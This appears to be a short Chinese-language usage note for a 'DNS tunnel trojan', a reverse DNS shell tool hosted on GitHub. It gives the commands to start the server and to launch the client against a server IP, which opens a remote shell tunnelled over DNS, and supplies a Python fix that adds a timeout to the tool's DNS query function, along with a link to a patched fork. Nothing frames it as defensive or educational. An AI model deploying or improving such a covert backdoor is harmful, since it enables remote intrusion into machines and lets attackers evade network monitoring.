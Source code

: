 基于直接连接的DNS隧道木马

https://github.com/ahhh/Reverse_DNS_Shell

## 服务端
```
python reverse_dns_shell_server.py
```
## 客户端
```
python reverse_dns_shell_client.py -s server_ip
```

## Tips
代码使用时存在一些bug，修复如下，在dnsMakeQuery函数中设置timeout：
```
def dnsMakeQuery(url, host):
  feedback_request = dns.message.make_query(url, dns.rdatatype.A)
  print 'ready udp'
  dns.query.udp(feedback_request, host, timeout=5)
```
修改后的代码：
<https://github.com/KxCode/Reverse_DNS_Shell>